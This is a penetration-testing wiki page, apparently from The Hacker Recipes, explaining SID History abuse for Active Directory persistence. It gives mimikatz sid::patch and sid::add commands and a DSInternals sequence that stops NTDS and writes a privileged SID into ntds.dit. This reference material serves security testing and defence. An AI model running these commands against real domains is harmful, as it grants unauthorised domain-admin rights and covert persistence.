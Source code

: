 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# SID History

## Theory

The SID (Security Identifier) is a unique identifier that is assigned to each security principal (e.g. user, group, computer). It is used to identify the principal within the domain and is used to control access to resources.

The SID history is a property of a user or group object that allows the object to retain its SID when it is migrated from one domain to another as part of a domain consolidation or restructuring. When an object is migrated to a new domain, it is assigned a new SID in the target domain. The SID history allows the object to retain its original SID, so that access to resources in the source domain is not lost.

This mechanism can also be abused as a means of persistence: adding the SID of a privileged account or group to the SID-History attribute of a controlled account grants rights associated with account/group of which the SID is added.

For instance, the SID of an account with Domain Admin rights can be added to a normal user SID History to grant them Domain Admin rights (the rights would not be granted per say, but the modified account would be treated as domain admin when checking rights).

## Practice

> [!CAUTION]
> There is currently no way to exploit this technique purely from a distant UNIX-like machine, as it requires some operations on specific Windows processes' memory.

### Pre-Windows 2016

Modifying the SID History attribute of an object can be done using mimikatz, with the [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch), [`sid::add`](https://tools.thehacker.recipes/mimikatz/modules/sid/add) and [`sid::lookup`](https://tools.thehacker.recipes/mimikatz/modules/sid/lookup) commands.

Mimikatz cannot be used on 2016+ domain controllers for that purpose, due to an error with [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch) ([https://github.com/gentilkiwi/mimikatz/issues/348](https://github.com/gentilkiwi/mimikatz/issues/348))

> [!WARNING]
> Mimikatz must be launched with at least enough privileges to perform the [`privilege::debug`](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) command (i.e. domain admin or `SYSTEM`).

```powershell
# Generic command
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:UserRecievingTheSID /new:SIDOfTheTargetedUserOrGroup"

# Example 1 : Use this command to inject the SID of built-in administrator account to the SID-History attribute of AttackerUser
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:Builtin\administrators "

# Example 2 : Use sid::lookup to retrieve the SID of an account and inject it to the SID-History attribute of AttackerUser
mikikatz.exe "sid::lookup /name:InterestingUser"
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:SIDOfInterestingUser"
```

### Post-Windows 2016

The only known way to add a SID to the SID History attribute of an account on a Windows domain controller 2016 and above is to use the Powershell module [DSInternals](https://github.com/MichaelGrafnetter/DSInternals). This method also works for Pre-Windows 2016 domain controllers.

> [!CAUTION]
> The NTDS service must be stopped at some point and restarted for this procedure to work, which can cause various issues. Proceed with care, avoid production systems.

```powershell
# Install DSInternals on the domain controller
Install-Module -Name DSInternals

# Find the account SID you want to inject
Get-ADUser -Identity $InterestingUser

# Stop the NTDS service
Stop-service NTDS -force

# Inject the SID into the SID History attribute
Add-ADDBSidHistory -samaccountname AttackerUser -sidhistory $SIDOfInterestingUser -DBPath C:\Windows\ntds\ntds.dit

# Start the NTDS service
Start-service NTDS
```

## Resources

[https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory](https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory)

[https://attack.mitre.org/techniques/T1134/005/](https://attack.mitre.org/techniques/T1134/005/)

[https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)

[https://forum.winbatch.com/index.php?topic=1545.0](https://forum.winbatch.com/index.php?topic=1545.0)

[https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints](https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints)

[https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya](https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya)

[https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/](https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/)